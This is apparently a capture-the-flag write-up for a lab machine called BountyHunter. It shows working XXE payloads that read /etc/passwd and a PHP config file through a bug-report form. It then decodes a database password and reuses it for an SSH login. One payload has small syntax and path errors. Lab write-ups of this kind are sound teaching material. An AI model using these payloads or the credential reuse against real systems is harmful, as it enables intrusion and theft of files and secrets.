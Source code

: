 bountyhunter
---

site = 10.10.11.100

## Steps

1. Find the upload page `http://10.10.11.100/log_submit.php`
2. When we submit a form, we see that it sends a POST request to `http://10.10.11.100/tracker_diRbPr00f314.php`
3. We also observe the data that was sent over, which is a base64 encoding of an XML file

```
PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT5hPC90aXRsZT4KCQk8Y3dlPmE8L2N3ZT4KCQk8Y3Zzcz5hPC9jdnNzPgoJCTxyZXdhcmQ+YTwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg==

<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>a</title>
		<cwe>a</cwe>
		<cvss>a</cvss>
		<reward>a</reward>
		</bugreport>
```

4. From this, we can craft our own XML files and send it directly to `http://10.10.11.100/tracker_diRbPr00f314.php`

```
prints out all the users
---
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
		<bugreport>
		<title>&ent;</title>
		<cwe>a</cwe>
		<cvss>a</cvss>
		<reward>a</reward>
		</bugreport>

get db.php file
---
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace <!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/db/php">]>
		<bugreport>
		<title>&ent;</title>
		<cwe>a</cwe>
		<cvss>a</cvss>
		<reward>a</reward>
		</bugreport>
```

After decoding the contents of db.php, we get a password

```
PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=

<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

Observing the contents of `/etc/passwd`, we see that only these 2 accounts have bash shell enabled
- root
- development

We try to ssh into the server using `development` and the password above

```
> ssh development@10.10.11.100
```

Get in and cat the flag.

Notes
---

It seems like we can't directly LFI the contents of `/home/development/user.txt` via the XML exploit due to read permissions. The server was probably under the user `www-data`, while the permissions of `user.txt` was `o:root g:development`


